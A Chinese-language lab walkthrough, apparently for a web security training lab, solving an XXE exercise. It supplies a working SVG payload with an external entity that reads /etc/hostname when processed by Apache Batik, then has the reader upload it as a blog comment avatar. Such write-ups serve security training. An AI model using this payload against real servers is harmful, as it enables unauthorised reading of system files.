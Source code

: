 ```
信息：

本实验允许用户将头像附加到评论中，并使用Apache Batik库处理头像图像文件。

完成实验：上载一个映像，其中显示处理后的/etc/hostname文件的内容。然后使用“Submit solution”按钮提交服务器主机名的值。
```

### 答案

创建包含以下内容的本地SVG图像：

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

<img src=".\图片\Snipaste_2023-07-31_12-46-17.png" alt="Snipaste_2023-07-31_12-46-17" style="zoom:80%;" />

再到靶场博客里的评论功能里上传图像

<img src=".\图片\Snipaste_2023-07-31_12-49-00.png" alt="Snipaste_2023-07-31_12-49-00" style="zoom:80%;" />